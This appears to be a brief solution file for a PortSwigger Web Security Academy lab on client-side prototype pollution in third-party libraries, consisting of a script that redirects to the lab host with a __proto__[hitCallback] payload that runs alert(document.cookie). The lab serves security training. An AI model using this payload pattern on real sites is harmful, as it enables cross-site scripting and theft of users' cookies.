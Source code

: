 # Lab

https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-client-side-prototype-pollution-in-third-party-libraries

## Solution

```js
<script>
    document.location="https://0aca00b504f2e7db822e70b80032000b.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29";
</script>
```